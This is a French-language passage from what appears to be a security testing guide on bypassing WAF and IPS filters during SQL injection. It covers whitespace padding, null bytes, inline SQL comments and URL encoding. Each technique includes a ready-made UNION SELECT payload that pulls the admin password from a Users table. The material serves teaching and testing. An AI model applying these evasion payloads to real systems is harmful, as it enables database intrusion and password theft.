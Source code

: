 Les techniques sont utilisées pour contourner les défenses telles que les pare-feu d'applications Web (WAF) ou les systèmes de prévention des intrusions (IPS). Reportez-vous également à [https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)

#### Espace blanc

Suppression d'espace ou ajout d'espaces qui n'affecteront pas l'instruction SQL. Par exemple

```sql
or 'a'='a'

or 'a'  =    'a'
```

Ajouter un caractère spécial comme une nouvelle ligne ou une tabulation qui ne changera pas l'exécution de l'instruction SQL. Par exemple,

```sql
or
'a'=
        'a'
```

#### Octets nuls

Utilisez un octet nul (%00) avant tout caractère bloqué par le filtre.

Par exemple, si l'attaquant peut injecter le code SQL suivant

`' UNION SELECT password FROM Users WHERE username='admin'--`

ajouter des octets nuls sera

`%00' UNION SELECT password FROM Users WHERE username='admin'--`

#### Commentaires SQL

L'ajout de commentaires SQL en ligne peut également aider l'instruction SQL à être valide et contourner le filtre d'injection SQL. Prenez cette injection SQL comme exemple.

`' UNION SELECT password FROM Users WHERE name='admin'--`

L'ajout de commentaires en ligne SQL le sera.

`'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--`

`'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--`

#### Encodage d'URL

Utilisez le [codage d'URL en ligne](https://meyerweb.com/eric/tools/dencoder/) pour coder l'instruction SQL

`' UNION SELECT password FROM Users WHERE name='admin'--`

L'encodage de l'URL de l'instruction d'injection SQL sera

`%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--`

